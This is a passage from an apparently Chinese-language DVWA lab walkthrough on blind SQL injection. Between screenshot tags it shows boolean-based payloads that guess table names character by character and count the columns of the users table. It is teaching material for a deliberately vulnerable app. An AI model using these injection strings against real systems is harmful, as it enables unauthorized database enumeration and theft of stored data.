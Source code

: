   <img src="img\sql-blind7.jpg" alt="sql-blind7" style="zoom:67%;" />

  - 1’ and ascii(substr((select table_name from information_schema.tables where table_schema=’dvwa’ limit 2,1),1))=101 #   //e

  <img src="img\sql-blind8.jpg" alt="sql-blind8" style="zoom:67%;" />

  - 以此类推，进行查询

- 猜解users表中的字段名

  - 猜解users表中有几个字段：1' and (select count(column_name) from information_schema.columns where table_name='users')=9 #  //users表中有9个字段

  <img src="img\sql-blind9.jpg" alt="sql-blind9" style="zoom:67%;" />